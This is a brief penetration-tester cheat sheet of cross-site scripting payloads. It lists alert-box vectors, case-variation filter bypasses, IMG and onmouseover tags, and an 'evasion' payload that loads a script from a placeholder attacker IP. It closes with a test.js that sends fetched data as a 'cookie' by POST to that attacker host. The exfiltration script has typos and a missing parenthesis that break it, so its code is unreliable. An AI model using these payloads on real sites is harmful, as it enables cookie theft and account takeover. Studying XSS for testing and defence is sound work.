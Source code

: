 # Examples

This is a good list:

[https://www.linkedin.com/pulse/20140812222156-79939846-xss-vectors-you-may-need-as-a-pen-tester](https://www.linkedin.com/pulse/20140812222156-79939846-xss-vectors-you-may-need-as-a-pen-tester)

## No security

`<script>alert(1)</script>`

Imagine that the server sanitizes `<script>`. To bypass that we can use:  
`<SCrIpt>alert(2)</ScRiPt>`  
`<script type=text/javascript>alert(2)</script>`

### Using the IMG-tag

```
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG SRC=javascript:alert("XSS")>
<IMG onmouseover="alert('xxs')">
```

### Onmouseover

```
<a onmouseover="alert(2)">d</a>
```

### Evasion Attempts

```
<Img src="x/><script>eval(String.fromCharCode(document.write('<script src="http://ATTACKINGIP/test.js"></script>');))</script>">


test.js
var req1 = new XMLHttpRequest();
req1.open('GET','http://localhost:8000/vasrsasd',false);
req1.send();
var response = req1.responseText;
var req2 = new XMLHttpRequest();
var params = "cookie=" + encdoeURIComponenet(response);
req2.open('POST', 'http://ATTACKINGIP:8000/pwn', true;
req2.setRequestHeader('Content-Type', 'application/x-ww-form-urlencoded');
req2.send(params);


should create url encodeded data file, can grab cookie from
```



